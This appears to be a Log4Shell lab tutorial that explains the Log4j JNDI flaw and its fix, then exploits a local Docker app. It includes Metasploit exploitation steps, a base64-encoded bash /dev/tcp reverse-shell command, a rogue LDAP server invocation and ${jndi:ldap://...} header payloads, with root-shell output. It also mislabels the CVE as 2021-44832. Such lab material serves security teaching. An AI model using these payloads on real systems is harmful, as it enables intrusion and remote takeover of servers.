 
# Log4Shell lab

> This tutorial, including all code and documentation, is provided for educational and research purposes only. It aims to enhance understanding of cybersecurity vulnerabilities, defensive strategies, and the importance of maintaining secure systems. The demonstration of the Log4Shell vulnerability is intended to inform developers, security professionals, and educational institutions about the risks and mitigation techniques related to this and similar vulnerabilities.

The _Log4Shell exploit_ (CVE-2021-44832) targets a vulnerability in the Apache Log4j logging library, allowing remote code execution by manipulating log messages. Specifically, the exploit involves the use of a malicious LDAP server to inject arbitrary code into a vulnerable Java application via JNDI lookups.

Log4j uses Java Naming and Directory Interface (JNDI) to enable dynamic logging configuration based on resources located through naming and directory services. It allows log messages to include lookup patterns that can retrieve data from various sources, such as LDAP or DNS.

When a user input or a specific HTTP header (like `User-Agent`) that contains a JNDI lookup string is logged by the vulnerable application, the Log4j library processes this string and performs a lookup to the specified LDAP server. In this exploit, the attacker's LDAP server responds with a payload that leads to the execution of arbitrary code on the application server.

The payload is a Java gadget chain that leverages a Java deserialisation vulnerability. The gadget chain involves invoking methods on serialised objects that execute arbitrary code upon deserialisation, leveraging existing classes in the application's classpath to bypass security checks and gain remote code execution. For more information on choosing which gadget to use to effectively gain code execution on the victim, see [here](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

![](img/log4shell_attack.png)

## Vulnerability fix

As reported by [NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases) are vulnerable. Avoid using any of these versions explicitly, or as a _transitive dependency from other packages_. The vulnerability is addressed in `log4j-core` version 2.16.0 and later.

For applications that cannot be immediately updated, modify the Log4j configuration to disable JNDI lookups. This can be achieved by setting the system property `log4j2.formatMsgNoLookups` to `true` or by removing the JNDI lookup class from the classpath.

The vulnerability is independent of Java versions, so any Java runtime that uses a vulnerable Log4j can be exploited.

## Lab

Package the vulnerable application with Gradle.

```bash
tom@MacBook:~/log4shell-lab/vulnerable-app# ./gradlew bootJar
```

Run it in a Docker container.

```bash
tom@MacBook:~/log4shell-lab# docker-compose up
```

We can verify that the application is vulnerable to CVE-2021-44832 by including the lookup string `${java:os}` in the login page at `http://localhost:8080`.

![](img/login.png)

The logs show that the lookup string is resolved.

![](img/verify.png)

## Finding the vulnerability

Use the Metasploit module `scanner/http/log4shell_scanner`. The scanner finds the vulnerable `User-Agent` header from the POC application.

```bash
msf6> use auxiliary/scanner/http/log4shell_scanner
msf6 auxiliary(scanner/http/log4shell_scanner) > set RHOSTS localhost
msf6 auxiliary(scanner/http/log4shell_scanner) > set RPORT 8080
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVHOST en0
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVPORT 1389
msf6 auxiliary(scanner/http/log4shell_scanner) > run

[+] ::1:8080              - Log4Shell found via / (header: User-Agent) (os: Linux 6.6.12-linuxkit unknown, architecture: aarch64-64) (java: Oracle Corporation_11.0.16)
```

## Automated exploitation with Metasploit

Metasploit has a couple of modules for automated exploitation. For header injection we can use the module `exploit/multi/http/log4shell_header_injection`.

To work on the lab environment, we use the following options. Replace the LHOST and SRVHOST variables with the Docker host IP. The lab environment uses Java 11 so we will use the Java gadget "BeanFactory".

```bash
set HTTP_HEADER User-Agent
set RHOSTS 127.0.0.1
set RPORT 8080
set LHOST en0
set LPORT 4444
set SRVHOST en0
set SRVPORT 1389
set target 2
set JAVA_GADGET_CHAIN BeanFactory
set ForceExploit true
```

Run the exploit and we get shell access.

```bash
msf6 exploit(multi/http/log4shell_header_injection) > exploit

[*] Started reverse TCP handler on 192.168.5.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 127.0.0.1:8080        - Log4Shell found via / (header: User-Agent) (os: Linux 6.6.12-linuxkit unknown, architecture: aarch64-64) (java: Oracle Corporation_11.0.16)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[*] Server stopped.
[+] The target is vulnerable.
[*] Command shell session 3 opened (192.168.5.2:4444 -> 192.168.5.5:40058) at 2024-02-17 16:17:43 +0100
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
```

## Manual exploit

Prepare a malicious LDAP server for JNDI injection attacks, for example [rogue-jndi](https://github.com/veracode-research/rogue-jndi). The Java version used to build the project does not need to correspond to the version running the vulnerable application.

The malicious LDAP server is configured to receive a specific command sequence. This command is then embedded into the code that is dynamically compiled and executed by the victim's system, effectively allowing the attacker's code to run on the target machine.

```bash
bash -c {echo,$base64EncodedCommand}|{base64,-d}|{bash,-i}
```

The variable `base64EncodedCommand` will contain a bash TCP reverse shell connecting to the host IP 192.168.5.2 at port 443.

```bash
tom@MacBook:~/workspace/security/rogue-jndi# echo 'bash -c bash -i >& /dev/tcp/192.168.5.2/443 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==
```

Start the malicious LDAP server with the embedded command.

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "192.168.5.2" --httpPort 8888
```

Start a Netcat listener on the attacker.

```bash
nc -lnvp 443
```

Trigger the exploit by using a JNDI lookup string that targets our malicious LDAP server.

```bash
${jndi:ldap://192.168.5.2:1389/o=tomcat}
```

The vulnerable application has two vulnerable parameters. The exploit can be triggered via the username field or via the `User-Agent` header.

```http
GET / HTTP/1.1
Host: localhost:8080
User-Agent: ${jndi:ldap://192.168.5.2:1389/o=tomcat}
```

We get a shell connection into the Docker container.

![](img/revshell.png)

## Resources

- https://github.com/pentesterland/Log4Shell
- https://infosecwriteups.com/log4j-zero-day-vulnerability-exploitation-detection-mitigation-9667908857b4
- https://github.com/Cyb3rWard0g/log4jshell-lab
- https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228
- https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot
- [Hack The Box | Unified](https://help.hackthebox.com/en/articles/6007919-introduction-to-starting-point)
